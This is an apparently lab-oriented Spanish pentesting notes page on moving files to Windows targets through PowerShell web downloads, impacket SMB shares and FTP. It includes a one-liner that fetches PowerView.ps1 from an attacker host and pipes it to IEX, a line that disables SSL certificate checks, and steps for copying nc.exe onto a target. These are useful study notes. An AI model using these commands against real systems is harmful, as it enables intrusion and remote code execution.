 ### Bypasear mensajes de error
En ocasiones,  ocurre que *Internet Explorer* no se ha configurado totalmente, lo que hace que salte un diálogo sobre el que no podremos hacer click. Para ello podemos utilizar `-UseBasicParsing`:

```powershell
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

Para aquellas en las que el error tiene que ver con el *certificado SSL*:

```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

## SMB Downloads

Podemos utilizar [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) de la [[impacket|suite de Impacket]] para montar un servidor [[445-SMB|SMB]]:

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

```powershell
copy \\192.168.220.133\share\nc.exe
```

En caso de  que windows bloquee conexiones anónimas, simplemente debemos especificar un usuario:

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```powershell
net use n: \\192.168.220.133\share /user:test test
```

## FTP Downloads

Igual que antes, podemos montar un servidor [[21-ftp|FTP]] con [[python]] y `pyftpdlib`:

```bash
sudo python3 -m pyftpdlib --port 21
```

```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

En ocasiones, no tendremos una shell interactiva, por lo que podemos introducir los comandos en un archivo:

```powershell
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```
